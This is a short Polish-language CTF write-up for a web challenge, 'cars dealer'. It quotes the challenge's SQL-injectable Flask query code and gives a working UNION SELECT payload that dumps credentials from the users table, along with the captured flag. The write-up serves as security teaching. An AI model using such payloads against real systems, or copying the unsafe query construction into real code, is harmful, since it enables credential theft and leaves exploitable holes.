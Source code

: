# cars dealer
![](images/a0f8055088be63cc3bc1ce5b04fb3500)

W opisie jest ukryta podpowiedź, że należy użyć SELECT UNION.
Po otwarciu strony http://challenges.wsi.edu.pl:5001 pojawia się prosta strona.
![](images/9c90637bfb31b24c5c49c8fa9f27342f)
W pliku "src.zip" dołączonym do zadania, znajduje się plik "init.sql".
Interesujący nas fragment to:
```
INSERT INTO users (username, password) VALUES
('admin', 'flag{this_is_a_fake_flag}'),
```
Trzeba wymyśleć sposób na dostanie się do tabeli `users`.

W pliku "server.py" w "src.zip" znajduje się kluczowy fragment kodu.
```
    page = request.args.get('page', 1, type=int)
    per_page = request.args.get('per_page', 10, type=int)
    search_term = request.args.get('search', '')

sql_query = f"SELECT * FROM cars WHERE brand \
            ILIKE '%%{search_term}%%' OR \
            model ILIKE '%%{search_term}%%' OR \
            engine ILIKE '%%{search_term}%%' OR \
            year::text ILIKE '%%{search_term}%%' \
        ORDER BY id LIMIT {per_page} OFFSET {(page - 1) * per_page};"

```
W tym przypadku należy wykonać SQL Injection. Skonstruowałem taki kod używający wyżej wymieniony SELECT UNION. Należy powtórzyć kolumny kilkakrotnie, aby UNION przeszedł.

```a%%' UNION SELECT id, username, password, password, id from users WHERE id=1 --```

Po wpisaniu tego kodu pojawia się tabela zawierająca flagę.
![](images/0d2e6814ea6034d35260c3151d6f9de5)

Flaga: `WSIZ{teSLA_is_c00l_as_f@sttt}`